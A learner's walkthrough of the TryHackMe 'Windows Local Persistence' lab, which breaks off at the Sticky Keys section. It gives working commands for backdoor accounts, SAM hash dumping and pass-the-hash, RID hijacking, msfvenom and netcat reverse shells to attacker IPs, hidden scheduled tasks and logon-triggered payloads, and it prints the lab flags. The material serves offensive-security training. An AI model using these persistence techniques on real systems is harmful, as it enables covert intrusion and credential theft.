





# [Windows Local Persistence](https://tryhackme.com/r/room/windowslocalpersistence)


## Task 1 - Introduction


After gaining the first foothold on your target's internal network, you'll want to ensure you don't lose access to it before actually getting to the crown jewels. Establishing persistence is one of the first tasks we'll have as attackers when gaining access to a network. In simple terms, persistence refers to creating alternate ways to regain access to a host without going through the exploitation phase all over again.
Backdoored Phone


There are many reasons why you'd want to establish persistence as quick as possible, including:

* **Re-exploitation isn't always possible**: Some unstable exploits might kill the vulnerable process during exploitation, getting you a single shot at some of them.
* **Gaining a foothold is hard to reproduce**: For example, if you used a phishing campaign to get your first access, repeating it to regain access to a host is simply too much work. Your second campaign might also not be as effective, leaving you with no access to the network.
* **The blue team is after you**: Any vulnerability used to gain your first access might be patched if your actions get detected. You are in a race against the clock!

While you could do with keeping some administrator's password hash and reusing it to connect back, you always risk those credentials getting rotated at some point. Plus, there are sneakier ways in which you could regain access to a compromised machine, making life harder for the blue team.

In this room, we'll look at the most common techniques attackers use to establish persistence in Windows systems. Before going into this room, it is recommended to be familiar with Windows systems fundamentals. You can check rooms on the matter in the following links:

* [Windows Fundamentals 1](https://tryhackme.com/room/windowsfundamentals1xbx)
* [Windows Fundamentals 2](https://tryhackme.com/room/windowsfundamentals2x0x)

Powershell is also used extensively throughout this room. You can learn more about it in the [Hacking with Powershell](https://tryhackme.com/room/powershell) room.

### Answer the questions below

* Click and continue learning!

## Task 2 - Tampering With Unprivileged Accounts

Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.

Click the **Start Machine** button on this task before continuing. The machine will be available on your web browser, but if you prefer connecting via RDP, you can use the following credentials:


**Note**: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing **Reconnect**.

Notice that we assume you have already gained administrative access somehow and are trying to establish persistence from there.

### Assign Group Memberships

For this part of the task, we will assume you have dumped the password hashes of the victim machine and successfully cracked the passwords for the unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the **Administrators** group. We can easily achieve this with the following command:

```
net localgroup administrators thmuser0 /add
```


This will allow you to access the server by using RDP, WinRM or any other remote administration service available.

If this looks too suspicious, you can use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This would allow us to copy the content of the SAM and SYSTEM registry hives, which we can then use to recover the password hashes for all the users, enabling us to escalate to any administrative account trivially.

To do so, we begin by adding the account to the Backup Operators group:

```
net localgroup "Backup Operators" thmuser1 /add
```


Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the **Remote Desktop Users** (RDP) or **Remote Management Users** (WinRM) groups. We'll use WinRM for this task:

```
net localgroup "Remote Management Users" thmuser1 /add
```


We'll assume we have already dumped the credentials on the server and have thmuser1's password. Let's connect via WinRM using its credentials:


If you tried to connect right now from your attacker machine, you'd be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on our assigned groups would indicate that we are a part of Backup Operators, but the group is disabled:


This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```


Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:


We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:


**Note**: If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:


And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:


### Special Privileges and Security Descriptors

A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. **Privileges** are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

* **SeBackupPrivilege**: The user can read any file in the system, ignoring any DACL in place.
* **SeRestorePrivilege**: The user can write any file in the system, ignoring any DACL in place.

We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:

```
secedit /export /cfg config.inf
```

We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:


We finally convert the .inf file into a .sdb file which is then used to load the configuration back into the system:

```
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

You should now have a user with equivalent privileges to any Backup Operator. The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a **security descriptor** as an ACL but applied to other system facilities.

To open the configuration window for WinRM's security descriptor, you can use the following command in Powershell (you'll need to use the GUI session for this):

```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

This will open a window where you can add thmuser2 and assign it full privileges to connect to WinRM:


Once we have done this, our user can connect via WinRM. Since the user has the SeBackup and SeRestore privileges, we can repeat the steps to recover the password hashes from the SAM and connect back with the Administrator user.

Notice that for this user to work with the given privileges fully, you'd have to change the **LocalAccountTokenFilterPolicy** registry key, but we've done this already to get the previous flag.

If you check your user's group memberships, it will look like a regular user. Nothing suspicious at all!


Once again, we'll assume we have already dumped the credentials on the server and have thmuser2's password. Let's connect with its credentials using WinRM:


We can log in with those credentials to obtain the flag.


### RID Hijacking

Another method to gain administrative privileges without being an administrator is changing some registry values to make the operating system think you are the Administrator.

When a user is created, an identifier called **Relative ID (RID)** is assigned to them. The RID is simply a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID. If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.

In any Windows system, the default Administrator account is assigned the **RID = 500**, and regular users usually have **RID >= 1000**.

To find the assigned RIDs for any user, you can use the following command:

```
wmic useraccount get name,sid
```


The RID is the last bit of the SID (1010 for thmuser3 and 500 for Administrator). The SID is an identifier that allows the operating system to identify a user across a domain, but we won't mind too much about the rest of it for this task.

Now we only have to assign the RID=500 to thmuser3. To do so, we need to access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec, available in `C:\tools\pstools` in your machine:


From Regedit, we will go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). Under the corresponding key, there will be a value called **F**, which holds the user's effective RID at position 0x30:


Notice the RID is stored using little-endian notation, so its bytes appear reversed.

We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):


The next time thmuser3 logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.

For this task, we assume you have already compromised the system and obtained the password for thmuser3. For your convenience, the user can connect via RDP with the following credentials:


If you did everything correctly, you should be logged in to the Administrator's desktop. 


**Note**: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing **Reconnect**.


### Answer the questions below

* Insert flag1 here

    `THM{FLAG_BACKED_UP!}`

    * Assign group memperships as Backup Operators and RDP user

        

    * Login user 

        ```
        evil-winrm -i $IP -u thmuser1 -p Password321
        ```

        

    * Disable LocalAccountTokenFilterPolicy from administrator user

        ```
        reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
        ```

        

    * Make backup of SAM and SYSTEM 

        ```
        reg save hklm\system system.bak
        reg save hklm\sam sam.bak
        download system.bak
        download sam.bak
        ```

        

    * Dump the password hashes for all users using `secretsdump.py`

        ```
        python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
        ```

        

    * Pass-the-Hash to connect to the victim machine with Administrator privileges

        ```
        evil-winrm -i $IP -u Administrator -H f3118544a831e728781d780cfdb9c1fa
        ```
        
        

* Insert flag2 here

    `THM{IM_JUST_A_NORMAL_USER}`

    * Export current configuration of Security Descriptors

        ```
        secedit /export /cfg config.inf
        ```

        

    * Edit/add thmuser2 to **SeBackupPrivilege** and **SeRestorePrivilege** 

        

    * Convert the .inf file into a .sdb and load the configuration back into the system

        ```
        secedit /import /cfg config.inf /db config.sdb

        secedit /configure /db config.sdb /cfg config.inf
        ```

        

    * Add thmuser2 to WinRM's security descriptor via Powershell (run as Admin)

        ```
        Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
        ```

        

    * Login thmuser2 via WinRM and Get the flag

        

* Insert flag3 here

    `THM{TRUST_ME_IM_AN_ADMIN}`

    * Open SAM registry using PsExec

        ```
        PsExec64.exe -i -s regedit
        ```
    * Edit registry thmuser3 RID to administrator RID

        

        

    * Login thmuser3 via RDP and Get the flag

        

## Task 3 - Backdooring Files

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

### Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:


Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```


Let's start an nc listener to receive our reverse shell on our attacker's machine:


     
If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully. 


### Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:


We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:


In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:


Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.



### Answer the questions below

* Modify Executable Files

    * Download file executeable with high chances that the user might use it frequently

        
    
    * Modify the file

        ```
        msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=10.9.251.6 lport=4444 -b "\x00" -f exe -o puttyX.exe
        ```

    * Transfer file to target machine and modify the taget shortcut

        

    * Set listener

        

    * Run the shortcut file and get the shell

        

* Insert flag5 here

    `THM{NO_SHORTCUTS_IN_LIFE}`

    * Create file script `backdoor.ps1` and save to `C:\Windows\System32\`

        ```
        Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.9.251.6 5555"

        C:\Windows\System32\calc.exe
        ```

    * Modify the shortcut to point to our script

        

    * Set listner on our machine

        

    * Double-click the shortcut and get the flag

        

* Insert flag6 here

    `THM{TXT_FILES_WOULD_NEVER_HURT_YOU}`

    * Create ps1 script save to `C:\Windows\backdoor2.ps1`

        ```
        Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.9.251.6 6666"
        C:\Windows\system32\NOTEPAD.EXE $args[0]
        ```

    * Open `regedit` and .txt file ProgID

        

    * Search for a subkey for the corresponding ProgID 

        

    * Change the registry key to run our backdoor script

        ```
        powershell.exe -windowstyle hidden C:\Windows\backdoor2.ps1 %1
        ```

        

    * Set listener on out machine

        

    * Open any .txt file on target machine and get the shell

        

## Task 4 - Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

### Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

**Note**: There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```        

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2

This should create a connection back to your attacker's machine.


### Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

```
sc.exe query state=all
```
       

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:


There are three things we care about when using a service for persistence:

* The executable (**BINARY_PATH_NAME**) should point to our payload.
* The service **START_TYPE** should be automatic so that the payload runs without user interaction.
* The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "THMservice3" parameters, we can use the following command:

```
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```     

You can then query the service's configuration again to check if all went as expected:


### Answer the questions below

* Insert flag7 here

    `THM{SUSPICIOUS_SERVICES}`

    * Create payload   

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=5555 -f exe-service -o rev-svc.exe
        ```

        

    * Download payload to target machine

        

    * Setup listener on our machine

        

    * Setup the service

        ```
        sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
        sc.exe start THMservice2
        ```

        

    * Get the shell and flag

        


* Insert flag8 here

    `THM{IN_PLAIN_SIGHT}`

    * Create payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=6666 -f exe-service -o rev-svc2.exe
        ```

        

    * Download payload to target machine

        

    * Setup listener on our machine

        

    * Reconfigure "THMservice3" parameters

        ```
        sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
        ```

        

    * Restart the service and get the shell

        

## Task 5 - Abusing Scheduled Tasks

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

### Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:
Command Prompt

```
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

**Note**: Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:
Command Prompt

```
schtasks /query /tn thm-taskbackdoor
```


### Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

```
c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:


If we try to query our service again, the system will tell us there is no such task:

```
schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:


### Answer the questions below

* Insert flag9 here

    `THM{JUST_A_MATTER_OF_TIME}`

    * Crete task schedule

        ```
        schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.9.251.6 5555" /ru SYSTEM
        ```

        

    * Making our task invisible, uses psexec tool to edit registry

        ```
        c:\tools\pstools\PsExec64.exe -s -i regedit
        ```

        

        

    * Set listener on our machine

        

    * Get the shell and flag

        

## Task 6 - Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

### Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:


We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

```
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):


And log back via RDP. You should immediately receive a connection back to your attacker's machine.


### Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

* HKCU\Software\Microsoft\Windows\CurrentVersion\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
* HKLM\Software\Microsoft\Windows\CurrentVersion\Run
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

```
move revshell.exe C:\Windows
```

Let's then create a REG_EXPAND_SZ registry entry under HKLM\Software\Microsoft\Windows\CurrentVersion\Run. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note**: While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.


After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).


### Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

* `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
* `shell` points to the system's shell, which is usually `explorer.exe`.


If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```
move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

**Note**: While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.


After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).


### Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```
move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:



Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).


### Answer the questions below

* Insert flag10 here

    `THM{NO_NO_AFTER_YOU}`

    * Crete our payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=6666 -f exe -o revshell.exe
        ```

        

    * Transfer our payload to target machine

        

    * Copy our payload to `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

        

    * Set listener on our machine

        

    * Sign out out session login from start menu

        

    * Login back and get the shell

        

* Insert flag11 here

    `THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}`

    * Create our payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=4444 -f exe -o revshell.exe
        ```

        

    * Transfer our payload to target machine

        

    * Move our payload to `C:\Windows`

        

    * Create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

        

    * Set listener on our machine

        

    * Sign out out session login from start menu

        

    * Login back and get the shell

        

* Insert flag12 here

    `THM{I_INSIST_GO_FIRST}`

    * Create out payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=5555 -f exe -o revshell.exe
        ```

        

    * Transfer our payload to target machine

        

    * Move our payload to `C:\Windows`

        
    
    *  Edit registry `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`

        

    * Set listener on our machine

        

    * Sign out out session login from start menu

        

    * Login back and get the shell

        

* Insert flag13 here

    `THM{USER_TRIGGERED_PERSISTENCE_FTW}`

    * Create our payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=7777 -f exe -o revshell.exe
        ```

        

    * Transfer our payload to target machine

        

    * Move our payload to `C:\Windows`

        
    
    * Create an environment variable `UserInitMprLogonScript` for a user in `HKCU\Environment`

        

    * Set listener on our machine

        

    
    * Sign out out session login from start menu

        

    * Login back and get the shell

        

## Task 7 - Backdooring the Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

We will look at two methods that rely on accessibility features to this end.

### Sticky Keys

When pressing key combinations like `CTRL + ALT + DEL`, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time. In that sense, if sticky keys are active, you could press and release `CTRL`, press and release `ALT` and finally, press and release `DEL` to achieve the same effect as pressing the `CTRL + ALT + DEL` combination.

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` 5 times. After inputting the shortcut, we should usually be presented with a screen that looks as follows:


